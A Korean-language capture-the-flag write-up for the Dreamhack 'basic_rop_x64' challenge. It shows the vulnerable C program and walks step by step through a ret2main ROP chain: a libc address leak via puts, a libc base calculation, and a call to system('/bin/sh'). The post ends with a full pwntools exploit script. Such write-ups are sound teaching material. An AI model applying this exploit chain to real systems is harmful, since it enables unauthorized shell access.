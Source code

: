 # [Dreamhack] basic_rop_x64

Created: 2022년 12월 7일 오후 1:48
Tags: Pwn

[https://dreamhack.io/wargame/challenges/29/](https://dreamhack.io/wargame/challenges/29/)

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

int main(int argc, char *argv[]) {
    char buf[0x40] = {};

    initialize();

    read(0, buf, 0x400);
    write(1, buf, sizeof(buf));

    return 0;
}
```

basic_rop_x86 문제처럼 간단하게 got_overwrite 기법을 사용하여 문제를 풀려고 했습니다. 근데 가젯을 확인해보니 got_overwrite을 할 수 있는 가젯이 없었습니다. 

그래서 ret2main 기법으로 문제를 풀었습니다.

![Untitled](/5%EC%A3%BC%EC%B0%A8/img/basic_rop_x64.png)

일단 익스플로잇을 하는데 필요한 정보들을 구하는 코드를 짰습니다.

- read_got : read함수의 실제주소를 구하기 위함
- puts_plt : read_got을 출력하기 위함
- read_offset : 구한 read의 실제주소에서 lib_base를 구하기위함
(lib_base = read실제주소 - offset)
- system_offset : lib_base에 system_offset을 더해서 system함수 호출 가능
- pop_rdi_ret가젯 : rop를 위함
- main주소 : ret2main기법을 위함

```python
read_got = e.got["read"]
puts_plt = e.plt["puts"]
read_offset = libc.symbols["read"]
system_offset = libc.symbols["system"]
pop_rdi_ret = 0x0000000000400883
main = 0x00000000004007ba
```

먼저 read_got를 puts로 출력해서 read의 실제주소를 알아내는 코드를 짜주겠습니다.

```python
payload = b"A" * (0x40 + 8)
payload += p64(pop_rdi_ret) + p64(read_got) + p64(puts_plt)
payload += p64(main)
p.send(payload)

p.recvuntil(b"A" * 64)
read_addr = u64(p.recv(6) +b"\x00" * 2)
```

![Untitled](/5%EC%A3%BC%EC%B0%A8/img/basic_rop_x64_1.png)

버퍼의 크기인0x40에 sfp만큼인 8만큼을 더미데이터로 채워줍니다.

그리고 pop_rdi_ret 가젯을 사용하여 read_got를 puts함수를 사용하여 출력해줍니다.

그리고 main함수주소를 넣어 다시 main함수가 실행되게 합니다.

```python
lib_base = read_addr - read_offset
system = lib_base + system_offset
binsh = lib_base + 0x18cd57
```

lib_base, system 함수의 주소를 구하는 코드입니다.

`strings -tx libc.so.6 | grep "/bin/sh”` 명령어로 lib_base에서 `/bin/sh` 까지의 오프셋을 알수있습니다.

![Untitled](/5%EC%A3%BC%EC%B0%A8/img/basic_rop_x64_2.png)

이제 모든걸 구하고 main함수가 실행되니 간단하게 bof를 발생시켜서 /bin/sh을 인자로 system함수를 실행시키면 해결 됩니다.

```python
payload = b"A" * (0x40 + 8)
payload += p64(pop_rdi_ret) + p64(binsh) + p64(system)
p.send(payload)
p.interactive()
```

### 최종 코드

```python
from pwn import *

#p = process("./basic_rop_x64")
p = remote("host3.dreamhack.games", 23748)
e = ELF("./basic_rop_x64")
libc = ELF("./libc.so.6")

def slog(name, addr):
  return success(": ".join([name, hex(addr)]))

read_got = e.got["read"]
puts_plt = e.plt["puts"]
read_offset = libc.symbols["read"]
system_offset = libc.symbols["system"]
pop_rdi_ret = 0x0000000000400883
main = 0x00000000004007ba

payload = b"A" * (0x40 + 8)
payload += p64(pop_rdi_ret) + p64(read_got) + p64(puts_plt)
payload += p64(main)
p.send(payload)

p.recvuntil(b"A" * 64)
read_addr = u64(p.recv(6) +b"\x00" * 2)
lib_base = read_addr - read_offset
system = lib_base + system_offset
slog("lib_base", lib_base)
slog("system", system)
binsh = lib_base + 0x18cd57

payload = b"A" * (0x40 + 8)
payload += p64(pop_rdi_ret) + p64(binsh) + p64(system)
p.send(payload)
p.interactive()
```

### 실행화면

![Untitled](/5%EC%A3%BC%EC%B0%A8/img/basic_rop_x64_3.png)